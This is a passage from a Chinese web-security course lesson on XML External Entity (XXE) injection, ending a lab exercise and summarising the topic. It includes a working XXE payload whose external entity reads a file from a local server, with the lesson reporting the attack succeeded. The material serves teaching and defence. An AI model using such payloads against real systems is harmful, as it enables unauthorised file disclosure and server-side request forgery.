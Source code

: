&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;!DOCTYPE reset[
&lt;!ENTITY Info SYSTEM "http://127.0.0.1/1.txt"&gt;
]&gt;

&lt;reset&gt;&lt;login&gt;&amp;Info;&lt;/login&gt;&lt;secret&gt;Any bugs?&lt;/secret&gt;&lt;/reset&gt;
</code></pre>
<p>我们可以利用之前学习的知识，将请求中的XML数据进行修改，利用XXE攻击获取到1.txt文件中的内容。</p>
<p><img alt="图片" src="assets/04a5ce2da57e41888185158afdd72030.jpg"/></p>
<p>可以看到1.txt中的内容已经被显示在响应中，我们的XXE攻击成功。</p>
<h2 id="总结">总结</h2>
<p>这一讲我们学习了XML外部实体注入攻击，首先我们介绍了什么是XML可扩展标记语言，知道它是一个用来存储和调用数据的文件，并对它的语法进行了大致的了解。</p>
<p>随着对它学习的深入，我们知道了XML中存在一个验证文档，即DTD文档类型定义，并了解到它其中有一个实体定义的问题，也就是引起XXE漏洞的主要原因。</p>
<p>在学习完一些XML以及DTD的基础知识后，我们深入地分析了XXE漏洞产生的原因，即XML代码注入导致的DTD对外部实体的定义，从而获取到一些隐私文件或者发起服务端请求伪造。</p>
<p>最后，我们通过实战切身体会到了XXE攻击的危害，并且加深了我们对这一攻击方式的理解。</p>
<h2 id="思考题">思考题</h2>
<p>你知道有什么防范XXE攻击的措施吗？</p>
<p>欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！</p>
</div>
</div>
<div>
<div id="prePage" style="float: left">
</div>
<div id="nextPage" style="float: right">
</div>
</div>
</div>
</div>
</div>
<div class="copyright">
<hr/>
<p>© 2019 - 2023 <a href="/cdn-cgi/l/email-protection#cda1a1a1f4f9fcfcfdfa8daaa0aca4a1e3aea2a0" target="_blank">Liangliang Lee</a>.
                    Powered by <a href="https://github.com/gin-gonic/gin" target="_blank">gin</a> and <a href="https://github.com/kaiiiz/hexo-theme-book" target="_blank">hexo-theme-book</a>.</p>
</div>
</div>
<a class="off-canvas-overlay" onclick="hide_canvas()"></a>
</div>